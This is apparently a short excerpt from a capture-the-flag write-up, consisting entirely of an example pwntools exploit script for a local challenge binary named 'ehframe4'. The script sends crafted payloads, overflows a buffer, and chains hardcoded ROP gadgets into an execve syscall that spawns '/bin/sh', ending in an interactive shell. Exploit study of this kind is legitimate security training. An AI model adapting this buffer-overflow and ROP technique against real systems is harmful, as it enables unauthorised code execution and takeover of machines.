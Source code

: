 #### 示例 exp

```plain
from pwn import *

# context.log_level = 'debug'
context.arch = 'amd64'
context.os = 'linux'
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']

io = process('./ehframe4')
def p():
    gdb.attach(proc.pidof(io)[0],'b read')

p()
name_addr = 0x4D93D0
test_addr = 0x401a9d

io.recvuntil("name?")
payload = p64(name_addr) + p64(test_addr)
io.send(payload)

io.recvuntil("called") 
payload = b'a'*0x30
payload += p64(name_addr)
io.send(payload)

pop_rdi = 0x000000000040286c #: pop rdi ; ret
pop_rdx_rbx = 0x000000000049769b #: pop rdx ; pop rbx ; ret 
pop_rsi = 0x0000000000403f59 #: pop rsi ; ret
pop_rax = 0x0000000000462e77 #: pop rax ; ret
syscall = 0x0000000000401bcd #: syscall
binsh = 0x4d93a0
main = 0x401B8C
io.recvuntil("called") 

payload = b'/bin/sh\x00'
payload += p64(0)*6
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(pop_rsi)
payload += p64(0)
payload += p64(pop_rdx_rbx)
payload += p64(0)
payload += p64(0)
payload += p64(pop_rax)
payload += p64(0x3b)
payload += p64(syscall)

io.send(payload)
io.interactive()
```
